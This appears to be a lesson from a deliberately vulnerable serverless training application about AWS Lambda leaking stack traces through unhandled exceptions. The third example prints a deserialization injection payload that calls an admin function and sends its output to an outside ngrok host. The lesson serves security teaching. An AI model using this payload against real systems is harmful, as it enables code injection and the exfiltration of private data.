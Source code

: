 # LESSON 10: Unhandled Exceptions

The Lambda that handles the request is a "dumb" function when talking about response message. The function returns back any message that was received from the invoked function. In some cases, sending partial or incorrect data could reveal code or sensitive information if an error is sent back to to the function.

### Example 1
```{"action": "get"}```

We will receive an error that reveals code from the invoked function:
```
{
  "stackTrace": [
    [
      "/var/task/lambda_function.py",
      29,
      "lambda_handler",
      "orderId = event[\"orderId\"]"
    ]
  ],
  "errorType": "KeyError",
  "errorMessage": "'orderId'"
}
```

### Example 2

```
{"action":"shipping","order-id":"61f6269a-aafd-406d-8dca-84873b6ccef5","data":{"name":"asdasda","address":"sdasdasd","email":"","phone":"123123123"}}
```

Will result in:
```
{
   "stackTrace":[
      [
         "/var/task/lambda_function.py",
         47,
         "lambda_handler",
         "':address': address"
      ],
      [
         "/var/runtime/boto3/resources/factory.py",
         520,
         "do_action",
         "response = action(self, *args, **kwargs)"
      ],
      [
         "/var/runtime/boto3/resources/action.py",
         83,
         "__call__",
         "response = getattr(parent.meta.client, operation_name)(**params)"
      ],
      [
         "/var/runtime/botocore/client.py",
         314,
         "_api_call",
         "return self._make_api_call(operation_name, kwargs)"
      ],
      [
         "/var/runtime/botocore/client.py",
         612,
         "_make_api_call",
         "raise error_class(parsed_response, operation_name)"
      ]
   ],
   "errorType":"ClientError",
   "errorMessage":"An error occurred (ValidationException) when calling the UpdateItem operation: ExpressionAttributeValues contains invalid value: One or more parameter values were invalid: An AttributeValue may not contain an empty string for key :address"
}
```

### Example 3

```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ADMIN-GET-RECEIPT\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"year\": \"2019\", \"month\": \"12\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"http://fd79e219.ngrok.io/lol?data=\"+JSON.stringify(d));}); }()"}
```
Will result in:
```
{
  "StatusCode": 200,
  "FunctionError": "Unhandled",
  "ExecutedVersion": "$LATEST",
  "Payload": "{\"stackTrace\": [[\"/var/task/backend/src/functions/admin/admin-get-receipts.py\", 33, \"lambda_handler\", \"download_dir(client, resource, prefix, '/tmp', bucket)\"], [\"/var/task/backend/src/functions/admin/admin-get-receipts.py\", 8, \"download_dir\", \"for result in paginator.paginate(Bucket=bucket, Delimiter='/', Prefix=dist):\"], [\"/var/runtime/botocore/paginate.py\", 255, \"__iter__\", \"response = self._make_request(current_kwargs)\"], [\"/var/runtime/botocore/paginate.py\", 332, \"_make_request\", \"return self._method(**current_kwargs)\"], [\"/var/runtime/botocore/client.py\", 314, \"_api_call\", \"return self._make_api_call(operation_name, kwargs)\"], [\"/var/runtime/botocore/client.py\", 612, \"_make_api_call\", \"raise error_class(parsed_response, operation_name)\"]], \"errorType\": \"ClientError\", \"errorMessage\": \"An error occurred (AccessDenied) when calling the ListObjects operation: Access Denied\"}"
}
```

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

